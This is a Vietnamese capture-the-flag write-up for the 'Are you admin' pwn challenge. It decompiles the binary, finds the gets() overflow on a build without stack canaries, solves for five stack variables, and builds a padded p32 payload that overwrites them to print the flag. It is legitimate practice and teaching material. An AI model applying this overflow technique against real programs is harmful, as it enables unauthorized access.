 # Are you admin
**__reversing, buffer overflow__**   

```
nc 194.5.207.113 7020
```
File binary: [areyouadmin](https://github.com/BuiKimPhat/ctf-writeup/blob/master/pwn/tmuctf/areyouadmin/areyouadmin)

- Kiểm tra định dạng file `file areyouadmin`, ta thấy file thực thi có định dạng là ELF 64bit
- Đầu tiên, mình sẽ dùng IDA 64bit để phân tích file thực thi và thấy được hàm main có dạng như sau:
```
  tmulogo();
  v14 = 0;
  v13 = 0;
  v12 = 0;
  v11 = 0;
  v10 = 0;
  sub_10C0("Enter username:");
  sub_1110(&v8);
  sub_10C0("Enter password:");
  sub_1110(&v7);
  if ( sub_1100(&v8, "AlexTheUser")
    || sub_1100(&v7, "4l3x7h3p455w0rd")
    || v13 * v14 + v12 != 9535
    || v12 * v13 + v11 != 14242
    || v11 * v12 + v10 != 5843
    || v10 * v11 + v14 != 7113
    || v14 * v10 + v13 != 28735 )
  {
    result = 0;
  }
  else
  {
    LODWORD(v4) = sub_1120("flag.txt", "r");
    v9 = v4;
    if ( !v4 )
    {
      sub_10E0("Missing flag.txt. Contact an admin if you see this on remote.");
      sub_1130(1LL);
    }
    sub_10F0(&v6, 128LL, v9);
    sub_10E0("%s");
    result = 0;
  }
```
Có vẻ như quá trình tạo mã giả của hàm có vấn đề, nên các tên hàm hệ thống đều bị chuyển sang dạng "sub_????". Để biết được đó là hàm gì thì chỉ cần double click vào xem hàm đó trong chế độ xem mã assembly.      
Đổi lại tên các hàm "sub_????" cho dễ nhìn:
```
  tmulogo();
  v14 = 0;
  v13 = 0;
  v12 = 0;
  v11 = 0;
  v10 = 0;
  puts1("Enter username:");
  gets1(&v8);
  puts1("Enter password:");
  gets1(&v7);
  if ( strcmp1(&v8, "AlexTheUser")
    || strcmp1(&v7, "4l3x7h3p455w0rd")
    || v13 * v14 + v12 != 9535
    || v12 * v13 + v11 != 14242
    || v11 * v12 + v10 != 5843
    || v10 * v11 + v14 != 7113
    || v14 * v10 + v13 != 28735 )
  {
    result = 0;
  }
  else
  {
    LODWORD(v4) = fopen1("flag.txt", "r");
    v9 = v4;
    if ( !v4 )
    {
      printf1("Missing flag.txt. Contact an admin if you see this on remote.");
      exit1(1LL);
    }
    fgets1(&v6, 128LL, v9);
    printf1("%s");
    result = 0;
  }
```
Vì không cho đổi tên giống hàm chuẩn nên mình để thêm số 1 ở phía sau :vv

- Nhìn sơ qua chương trình, ta có thể thấy được chương trình có đoạn code chuyên dùng để in flag ở phía sau, nhưng để chạy được phần code đó thì ta phải thỏa các điều kiện:
    - Chuỗi **username == "AlexTheUser"**
    - Chuỗi **password == "4l3x7h3p455w0rd"**
    - v13 * v14 + v12 == 9535
    - v12 * v13 + v11 == 14242
    - v11 * v12 + v10 == 5843
    - v10 * v11 + v14 == 7113
    - v14 * v10 + v13 == 28735

- Quan sát thấy chương trình sử dụng hàm `gets` để nhận input, điều này sẽ dễ dẫn đến lỗi buffer overflow. Thử kiểm tra các chế độ bảo vệ của chương trình:
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```
Chương trình không có chế độ bảo vệ buffer overflow (Canary), thế nên chúng ta có thể tự do điều khiển stack bằng input mà không cần lo nghĩ gì nhiều.

- 2 điều kiện username và password thì ta có thể dễ dàng nhập rồi. Vấn đề là chúng ta cần phải điều khiển 5 biến v14, v13, v12, v11, v10 trên stack để thỏa được điều kiện trên.    
Ta cần tìm xem giá trị của 5 biến này cần bằng bao nhiêu để thỏa điều kiện. Nhưng mấy thứ tính toán 5 ẩn thế này thì mình chịu nên mình bỏ hệ phương trình trên vào tool tính toán online [WolframAlpha](https://www.wolframalpha.com/) để tính hộ.   
Vì nếu để tên biến là v10, v11... thì tool sẽ hiểu nhầm thành v mũ 10, v mũ 11... nên mình đổi tên biến sang lần lượt từ v10 đến v14 là a, b, c, d, e
```
d * e + c = 9535, c * d + b = 14242, b * c + a = 5843, a * b + e = 7113, e * a + d = 28735
```
Vậy ta đã tìm được điều kiện cần: **v10 = 233, v11 = 30, v12 = 187, v13 = 76, v14 = 123**

Thứ cần tìm cuối cùng là phải viết payload như thế nào mới có thể ghi đè được các giá trị này vào các biến trên. 

- Để điều khiển được giá trị của các biến trên stack, ta cần tìm địa chỉ của nó. Dùng gdb-peda để debug và xem địa chỉ của các biến này cùng với 2 input username, password trên stack ở đâu:
```
gdb-peda$ start
```
```
gdb-peda$ pdis main
```
Đặt breakpoint ngay tại vị trí các biến được gán bằng 0 để tính địa chỉ các biến ở đâu
```
0x00005555555552f1 <+93>:    call   0x555555555229 <tmulogo>
0x00005555555552f6 <+98>:    mov    DWORD PTR [rbp-0x4],0x0
0x00005555555552fd <+105>:   mov    DWORD PTR [rbp-0x8],0x0
0x0000555555555304 <+112>:   mov    DWORD PTR [rbp-0xc],0x0
0x000055555555530b <+119>:   mov    DWORD PTR [rbp-0x10],0x0
0x0000555555555312 <+126>:   mov    DWORD PTR [rbp-0x14],0x0
```
```
gdb-peda$ b* 0x00005555555552f6
```
Đặt breakpoint tại vị trí gọi các hàm gets để xem địa chỉ của username và password trên stack:
```
0x0000555555555331 <+157>:   call   0x555555555110 <gets@plt>
0x0000555555555336 <+162>:   lea    rdi,[rip+0xed2]        # 0x55555555620f
0x000055555555533d <+169>:   call   0x5555555550c0 <puts@plt>
0x0000555555555342 <+174>:   lea    rax,[rbp-0xa0]
0x0000555555555349 <+181>:   mov    rdi,rax
0x000055555555534c <+184>:   mov    eax,0x0
0x0000555555555351 <+189>:   call   0x555555555110 <gets@plt>
```
```
gdb-peda$ b* 0x0000555555555331
gdb-peda$ b* 0x0000555555555351
```

- Chạy chương trình và tính các địa chỉ cần tìm:
    - Tại breakpoint 1: RBP = 0x7fffffffdca0, suy ra địa chỉ của v14 là 0x7fffffffdca0 - 0x4 = 0x7fffffffdc9c   
    Tương tự, các biến còn lại có cùng RBP nên địa chỉ của nó sẽ bé hơn địa chỉ của biến trước khai báo trước đó 0x4. Vậy ta có thể hình dung được thứ tự của các biến trên stack là như sau: v10, v11, v12, v13, v14 (mỗi biến chỉ có thể chứa được 4 bytes)
    - Tại breakpoint 2: 
    ```
    Guessed arguments:
    arg[0]: 0x7fffffffdc40 --> 0xd ('\r')
    ```
    Dữ liệu input sẽ được lưu vào tham số duy nhất trong gets nên địa chỉ của username trên stack sẽ là 0x7fffffffdc40
    - Tại breakpoint 3: tương tự, địa chỉ của password trên stack là 0x7fffffffdc00
    
- Sắp xếp lại các địa chỉ trên stack mà ta đã tính được:    
```
password - 64 bytes - username - 76 bytes - v10 - 4 bytes - v11 - 4 bytes - v12 - 4 bytes - v13 - 4 bytes - v14
```

- Viết payload:     
Chương trình cho phép ta nhập input 2 lần, lần đầu chứa ở username, lần sau chứa ở password. Ta có thể lợi dụng buffer overflow ở username để viết các kí tự offset cho tràn đến các địa chỉ của các biến đằng sau để ghi giá trị của các biến sau. 
    - payload1: `username + "\x00"*(76 - len(username)) + p32(v14) + p32(v13) + p32(v12) + p32(v11) + p32(v10)` (giá trị của các biến trong payload1 đã được nêu ở phần trên)
    Ta có thể thấy từ username chỉ cần nhập 76 kí tự thì sẽ nhập tiếp được giá trị của v10,...      
    Ở đây, mình dùng kí tự null `\x00` để làm kí tự offset tràn đến các địa chỉ sau vì hàm `strcmp` chỉ so sánh 2 chuỗi cho đến khi gặp kí tự null. Nếu muốn chèn kí tự khác thì chuỗi kí tự chèn phải bắt đầu bằng kí tự null để hàm có thể so sánh thành công chuỗi username chứ không đem các kí tự sau đi so sánh. 
    Mỗi biến v?? chỉ rộng 4 bytes nên mình dùng hàm `p32` của pwntool để chuyển giá trị của nó thành chuỗi 4 bytes kí tự.
    - payload2: `password`

- Và thế là xong! Chỉ cần cho chương trình chạy lần lượt với 2 payload như trên thì ta sẽ lấy được flag
